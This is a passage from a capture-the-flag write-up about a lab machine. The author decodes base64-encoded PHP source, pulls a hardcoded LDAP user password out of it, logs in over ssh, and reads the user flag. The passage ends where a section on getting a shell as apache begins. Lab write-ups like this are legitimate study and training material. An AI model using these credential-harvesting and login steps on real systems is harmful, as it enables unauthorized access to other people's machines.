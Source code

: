 After taking that text to my terminal and decoding it, I'll notice
towards the top it has the password for ldapuser:



    root@kali# base64 -d page.php.b64 > page.php





    <!doctype.md>
    <?php
    session_start();
    if (!isset ($_SESSION['username'])) header('Location: /');

    $username1 = $_SESSION['username'];

    $strErrorMsg="";
    $cmdOutput=array();

    $username = 'ldapuser';
    $password = 'e398e27d5c4ad45086fe431120932a01';
    ...[snip]...



That password works for ssh access:



    root@kali# ssh ldapuser@10.10.10.122
    ldapuser@10.10.10.122's password:
    Last login: Mon Feb 11 02:33:41 2019 from 10.10.14.8
    [ldapuser@ctf ~]$ id
    uid=1000(ldapuser) gid=1000(ldapuser) groups=1000(ldapuser) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023



And access as ldapuser gives me `user.txt`:



    [ldapuser@ctf ~]$ ls
    user.txt
    [ldapuser@ctf ~]$ cat user.txt
    74a8e86f...



### Shell as apache

With command execution, I'll use that to get a shell:

![](/img/1549883152700.png)

